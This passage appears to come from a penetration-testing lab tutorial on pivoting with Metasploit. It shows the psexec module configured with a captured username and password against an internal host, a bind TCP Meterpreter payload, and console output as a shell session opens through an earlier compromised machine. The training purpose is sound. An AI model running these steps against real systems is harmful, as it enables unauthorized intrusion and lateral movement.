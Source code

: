 Let's use exploit/windows/smb/psexec and set SMBUser to luiza, SMBPass to BoccieDearAeroMeow1!, and RHOSTS to 172.16.5.200.

It's important to note that the added route will only work with established connections. Because of this, the new shell on the target must be a bind shell such as windows/x64/meterpreter/bind_tcp, thus allowing us to use the set route to connect to it. A reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network.

```bash
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza

msf6 exploit(windows/smb/psexec) > set SMBPass "BoccieDearAeroMeow1!"
SMBPass => BoccieDearAeroMeow1!

msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000
```

Now that all options are set, we can launch the module.

```bash
msf6 exploit(windows/smb/psexec) > run

[*] 172.16.5.200:445 - Connecting to the server...
[*] 172.16.5.200:445 - Authenticating to 172.16.5.200:445|ITWK02 as user 'luiza'...
[*] 172.16.5.200:445 - Selecting PowerShell target
[*] 172.16.5.200:445 - Executing the payload...
[+] 172.16.5.200:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 172.16.5.200:8000
[*] Sending stage (200774 bytes) to 172.16.5.200
[*] Meterpreter session 13 opened (172.16.5.199:51785 -> 172.16.5.200:8000 via session 12) at 2022-08-05 07:06:43 -0400

meterpreter > 
```

We successfully used the psexec exploit module to obtain a Meterpreter shell on the second target via the compromised machine.

As an alternative to adding routes manually, we can use the autoroute post-exploitation module to set up pivot routes through an existing Meterpreter session automatically. To demonstrate the usage of this module, we first need to remove the route we set manually. Let's terminate the Meterpreter session created through the psexec module and remove all routes with route flush.
